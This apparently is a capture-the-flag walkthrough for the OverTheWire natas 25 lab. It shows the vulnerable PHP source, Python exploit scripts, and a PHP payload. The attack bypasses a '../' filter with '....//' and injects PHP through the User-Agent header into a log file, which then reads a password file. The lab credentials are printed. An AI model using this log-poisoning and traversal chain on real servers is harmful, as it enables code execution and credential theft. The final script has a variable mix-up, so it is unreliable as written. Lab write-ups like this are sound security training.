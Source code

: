 ```yaml
---
title: natas 25 walkthrough
description: over the wire natas 25
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-25 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 25 walkthrough
    order: 30
---
```

# Description
> Username: natas25
> 
> URL:      http://natas25.natas.labs.overthewire.org

## Source Code
```php
<?php
// cheers and <3 to malvina
// - morla

function setLanguage()
{
    /* language setup */
    if (array_key_exists("lang", $_REQUEST))
        if (safeinclude("language/" . $_REQUEST["lang"]))
            return 1;
    safeinclude("language/en");
}

function safeinclude($filename)
{
    // check for directory traversal
    if (strstr($filename, "../")) {
        logRequest("Directory traversal attempt! fixing request.");
        $filename = str_replace("../", "", $filename);
    }
    // dont let ppl steal our passwords
    if (strstr($filename, "natas_webpass")) {
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }
    // add more checks...

    if (file_exists($filename)) {
        include($filename);
        return 1;
    }
    return 0;
}

function listFiles($path)
{
    $listoffiles = array();
    if ($handle = opendir($path))
        while (false !== ($file = readdir($handle)))
            if ($file != "." && $file != "..")
                $listoffiles[] = $file;

    closedir($handle);
    return $listoffiles;
}

function logRequest($message)
{
    $log = "[" . date("d.m.Y H::i:s", time()) . "]";
    $log = $log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log = $log . " \"" . $message . "\"\n";
    $fd = fopen("/var/www/natas/natas25/logs/natas25_" . session_id() . ".log", "a");
    fwrite($fd, $log);
    fclose($fd);
}
?>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
<?php
session_start();
setLanguage();

echo "<h2>$__GREETING</h2>";
echo "<p align=\"justify\">$__MSG";
echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```

---
# Progress
## Observation
User can control the value of `$_SERVER['HTTP_USER_AGENT']` and `$_REQUEST`.
http://natas25.natas.labs.overthewire.org/language/en properly prints the php code.
When accessing http://natas25.natas.labs.overthewire.org/logs/natas25_tpigqjsqu34iqeg3rcavtq3d2h.log, I got an internal server error. Accessing http://natas25.natas.labs.overthewire.org/natas/logs/natas25_refg9pem9ia3qh86tf2gd2gu2h.log gave us 404.
The `include` function will print all the content in the included file, and treating the content in php code block as a part of code.
## Plan
Since the service did not fully block the relative file input. It just makes `../` be empty. Therefore, we can construct `....//` to make the processed string be `../`. One cannot construct a string containing `natas_passwd`, since the service will terminate. 
Use `$_SERVER['HTTP_USER_AGENT']` to access the `natas_passwd`, and use `$_REQUEST` to access the log file.
## Gathering Info
### Structure of Directory
Guess the language directory is under `/var/www/natas/natas25/natas25`. 
Query `http://natas25.natas.labs.overthewire.org/?lang=....//logs/natas25_refg9pem9ia3qh86tf2gd2gu2h.log` give us

> [13.02.2024 04::04:40] Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 "Directory traversal attempt! fixing request."

Great! It seems the plan would work.
## Pwn
### First Try
```python
import requests
from bs4 import BeautifulSoup
from requests.auth import HTTPBasicAuth

username = "natas25"
password = "O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx"
authentication = HTTPBasicAuth(username, password)

def get_content(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return content.__str__()

def main():
    main_url = "http://natas25.natas.labs.overthewire.org/"
    with open("./natas_pwn.php", "r") as f:
        header = {
            "User-Agent": f.read(),
        }
    response = requests.get(main_url, auth=authentication, headers=header)
    session_id = response.cookies["PHPSESSID"]
    log_file_path = "?lang=....//logs/natas25_" + session_id + ".log"
    response = requests.get(main_url+log_file_path, auth=authentication, cookies=response.cookies)
    print(get_content(response))

main()
```
Get 
> [13.02.2024 04::16:02] python-requests/2.31.0 "Directory traversal attempt! fixing request."

User agent injection failed.
Try to send the second request with the same header. Succeeded! 
### Final
script
```python
import requests
from bs4 import BeautifulSoup
from requests.auth import HTTPBasicAuth

username = "natas25"
password = "O9QD9DZBDq1YpswiTM5oqMDaOtuZtAcx"
authentication = HTTPBasicAuth(username, password)

def get_content(response):
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return content.__str__()

def main():
    main_url = "http://natas25.natas.labs.overthewire.org/"
    with open("./natas_pwn.php", "r") as f:
        header = {
            "User-Agent": f.read(),
        }
    req = requests.get(main_url, auth=authentication, headers=header)
    session_id = response.cookies["PHPSESSID"]
    log_file_path = "?lang=....//logs/natas25_" + session_id + ".log"
    response = requests.get(main_url+log_file_path, auth=authentication, cookies=response.cookies, headers=header)
    print(get_content(response))

main()
```
payload (`natas_pwn.php`)
```php
<?php echo fread(fopen("/etc/natas_webpass/natas26", "r"),filesize("/etc/natas_webpass/natas26")); ?>
```
8A506rfIAXbKKk68yJeuTuRq4UfcK70k

---
# Hint

---
# Solving
## Category
- 
## Techniques
- 

## Tools
- 